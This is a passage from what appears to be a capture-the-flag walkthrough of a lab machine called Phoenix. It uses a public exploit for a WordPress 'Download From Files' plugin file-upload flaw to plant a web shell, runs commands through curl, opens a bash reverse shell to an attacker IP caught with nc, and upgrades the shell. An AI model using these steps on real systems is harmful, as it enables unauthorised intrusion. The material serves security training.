 

    oxdf@hacky$ python download_upload.py https://phoenix.htb cmd..md 
    Download From Files <= 1.48 - Arbitrary File Upload
    Author -> spacehen (www.github.com/spacehen)
    Uploading Shell...
    Shell Uploaded!
    https://phoenix.htb/wp-admin/cmd..md
    oxdf@hacky$ curl -k https://phoenix.htb/wp-admin/cmd..md?cmd=id
    uid=1001(wp_user) gid=1001(wp_user) groups=1001(wp_user)



It works.

### Shell

To get a shell, I'll change the data into a POST request and have `curl`
url-encode it:



    oxdf@hacky$ curl -k https://phoenix.htb/wp-admin/cmd..md --data-urlencode 'cmd=id'
    uid=1001(wp_user) gid=1001(wp_user) groups=1001(wp_user)



Now I'll replace `id` with a reverse shell. On running, it hangs:



    oxdf@hacky$ curl -k https://phoenix.htb/wp-admin/cmd..md --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'



But there's a shell at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.149 51944
    bash: cannot set terminal process group (818): Inappropriate ioctl for device
    bash: no job control in this shell
    wp_user@phoenix:~/wordpress/wp-admin$ 



I'll upgrade my shell using `script`:



    wp_user@phoenix:~/wordpress/wp-admin$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    wp_user@phoenix:~/wordpress/wp-admin$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    wp_user@phoenix:~/wordpress/wp-admin$
